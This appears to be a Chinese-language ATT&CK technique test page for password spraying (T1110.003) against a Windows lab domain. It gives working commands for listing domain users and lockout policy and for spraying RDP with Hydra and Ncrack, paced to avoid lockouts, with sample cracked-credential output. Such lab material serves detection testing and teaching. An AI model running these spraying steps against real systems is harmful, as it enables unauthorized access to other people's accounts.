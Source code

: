# T1110.003-Win-密码喷射

## 描述

密码喷射（Password Spraying）是一种暴力破解技术，攻击者使用单一或少量常见密码（如“Password123”）尝试登录多个用户账户，以规避账户锁定策略。与传统暴力破解（针对单一账户尝试多个密码）不同，密码喷射针对多个账户使用相同密码，避免触发登录失败阈值。攻击者通常通过社交工程、网络钓鱼或LDAP查询收集用户ID，结合域密码策略选择可能密码，攻击常见服务如RDP（3389/TCP）、SMB（445/TCP）、LDAP（389/TCP）、Kerberos（88/TCP）。成功登录后，攻击者可获取未授权访问权限，用于横向移动或特权提升。

## 测试案例

### 测试环境
- 域控制器：Windows Server 2019（dc.lab.local）
- 域内主机：Windows 10
- 工具：Hydra、Ncrack、CrackMapExec
- 要求：域用户列表（users.txt）、常见密码（如Password123）、域控制器地址、域密码策略（如锁定阈值5次，锁定窗口30分钟）

### 测试准备
1. 收集域用户列表：
   ```powershell
   net user /domain > users.txt
   ```
   - 编辑`users.txt`，保留用户名（如testuser1,testuser2）。
2. 准备密码列表（如`passwords.txt`：Password123,Summer2025）。
3. 确认域密码策略：
   ```powershell
   net accounts /domain
   ```
   - 示例输出：`Lockout threshold: 5 attempts, Lockout duration: 30 minutes`
4. 安装工具：
   - Kali Linux：预装Hydra、Ncrack
   - CrackMapExec：`pip install crackmapexec`

### 测试步骤
1. **场景一：Hydra RDP密码喷射**：
   ```bash
   hydra -L users.txt -p Password123 rdp://dc.lab.local -t 4 -w 30
   ```
   - 参数说明：
     - `-L users.txt`：用户列表
     - `-p Password123`：单一密码
     - `-t 4`：4个并发线程（低于锁定阈值）
     - `-w 30`：每次尝试间隔30秒
   - 输出示例：
     ```
     [3389][rdp] host: dc.lab.local login: testuser1 password: Password123
     ```

2. **场景二：Ncrack RDP密码喷射**：
   ```bash
   ncrack -u users.txt -p Password123 -T 3 rdp://dc.lab.local --pairwise
   ```
   - 参数说明：
     - `-T 3`：降低扫描速度
     - `--pairwise`：逐对尝试，避免锁定
   - 输出示例：
     ```
     Discovered credentials: testuser1 Password123
     ```
